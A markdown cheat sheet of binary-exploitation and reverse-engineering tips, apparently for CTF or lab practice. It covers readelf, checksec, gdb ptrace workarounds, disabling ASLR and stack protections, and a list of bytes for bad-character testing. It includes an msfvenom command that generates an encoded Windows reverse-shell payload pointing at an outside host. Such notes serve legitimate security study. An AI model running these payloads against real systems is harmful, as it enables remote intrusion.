 Tips

## General stuff

- If after injecting your payload, after a push function, your payload become weird, increase the size of the stack.

- try ```strings```, and ```ltrace```

- If anti debugging options seem enabled, put hardware breakpoint in IDA (right click, put breakpoint, then edit breakpoint, hardware)

- Need an argument in hex ? or other format (pay attention to sign / unsigned, it depends of the binary ): https://cryptii.com/pipes/integer-encoder

- Always check the format of the input ! You can see sometimes in R2 ```%d %s``` etc. Because it will be important after.

---

## print informations about an elf 

- ```readelf -h <binary> ```

---

## Don't understand an instruction on windows 32 bits ? 

- https://en.wikipedia.org/wiki/Win32_Thread_Information_Block

---

##  Find opcodes  

- http://ref.x86asm.net/coder32.html

---

## Statif ELF Parser : 

- http://www.elfparser.com/

---

## View the name of the functions inside a binary 

- ```readelf -a <binary> | grep <function> | grep -vi glibc```

---

## Create a binary without any protection

1. ```echo 0 > /proc/sys/kernel/randomize_va_space```
2. disable stack canary, stack is executable, PIE disable : ```gcc -o vuln -fno-stack-protector -no-pie -z execstack vuln.c```

---

## Ptrace protection

- if you have an error because of ptrace protection and a segmentation fault, try to dump it before the call in gdb :  
1. ```catch syscall ptrace```
2. ```run```
3. ```generate-core-file binary.dump```

---

## Check security in place

- ```checksec```

---

## python3 and encoding

- send payload in a oneliner  : ```python -c 'import sys;sys.stdout.buffer.write(b"\xff\xa...")'```

## Msfvenom generate shell in ASM

`msfvenom -l payloads` (or whatever, encoder etc), then grep

Example : `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.156 LPORT=4343 -f c -b "\x00\x0a\x0d" -e x86/shikata_ga_nai  EXITFUNC=thread`


the `-f c` is for a c formated shell code

If there are bad characters, use `-b <Badchars>`, and use `-e` to encode
(shikata_ga_nai for the example)

Don't forget to add nop code before (\x90)

## List of all chars (to search for bad chars)
```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```